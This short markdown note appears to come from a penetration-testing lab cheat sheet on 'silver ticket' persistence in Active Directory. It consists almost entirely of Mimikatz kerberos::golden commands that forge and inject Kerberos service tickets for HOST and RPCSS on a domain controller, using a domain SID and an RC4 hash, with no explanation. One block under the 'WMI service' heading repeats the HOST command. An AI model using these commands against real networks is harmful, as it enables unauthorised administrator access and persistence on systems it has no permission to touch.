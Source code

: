 # Persistence Silver Ticket

![Silver Ticket](persistence_silver_ticket.png)

## Index:
  1. [Attack]

## Attack

HOST service:
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

```
WMI service:

```
C:\Windows\system32>C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

